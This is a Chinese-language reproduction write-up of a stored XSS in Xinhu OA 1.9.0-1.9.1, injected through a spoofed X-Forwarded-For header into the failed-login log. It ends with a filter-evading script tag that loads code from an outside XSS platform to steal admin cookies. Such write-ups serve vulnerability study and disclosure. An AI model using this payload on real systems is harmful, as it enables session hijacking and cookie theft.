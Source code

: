信呼oa 1.9.0-1.9.1 储存型xss
============================

一、漏洞简介
------------

二、漏洞影响
------------

信呼oa 1.9.0-1.9.1

三、复现过程
------------

首先搭建好之后跳转到一个登录页面

![1.png](./resource/信呼oa1.9.0-1.9.1储存型xss/media/rId24.png)输入刚开始安装时设置的管理员**usname paword**然后点击登陆，然后抓包查看传参，然后去寻找登陆模块的源代码，根据传参的追踪，我们很快就能追踪到这个文件`webmain\model\loginMode.php`

然后我在这个登陆文件`loginMode.php`的第209行到215行发现了一些东西

![2.png](./resource/信呼oa1.9.0-1.9.1储存型xss/media/rId25.png)

这里出现了一个`addlogs`函数，看名字应该是添加日志，在`logModel.php`中发现了他的定义

![3.png](./resource/信呼oa1.9.0-1.9.1储存型xss/media/rId26.png)

这里是获取了信息然后给数组赋值，然后insert函数调用 在`mysql.php`

![4.png](./resource/信呼oa1.9.0-1.9.1储存型xss/media/rId27.png)

很明显这里是插入语句的模板，这里就应该是登陆失败后，日志会记录下来前面看的到那些数组赋值的信息。

通过查看Mysql日志发现，登录失败他会记录我们的Ip，那么就简单了，我们是否可以尝试使用`X-Forwarded-For`来改变他的ip，然后我们使用

`X-Forwarded-For:127.0.0.1`X-F-F成功更换后台Ip

![5.png](./resource/信呼oa1.9.0-1.9.1储存型xss/media/rId28.png)打个xss

![6.png](./resource/信呼oa1.9.0-1.9.1储存型xss/media/rId29.png)后台成功弹框

![7.png](./resource/信呼oa1.9.0-1.9.1储存型xss/media/rId30.png)

打开XSS平台

![8.png](./resource/信呼oa1.9.0-1.9.1储存型xss/media/rId31.png)打一遍发现没用，获取不到cookie，F12看看咋回事

![9.png](./resource/信呼oa1.9.0-1.9.1储存型xss/media/rId32.png)果然是xss代码出了问题构造xss代码，极限代码\--\>多加//防止被转入之前\--\>`<sCRiPt/SrC=////xs.sb/Jwdu>`![10.png](./resource/信呼oa1.9.0-1.9.1储存型xss/media/rId33.png)

参考链接
--------

> https://xz.aliyun.com/t/7887
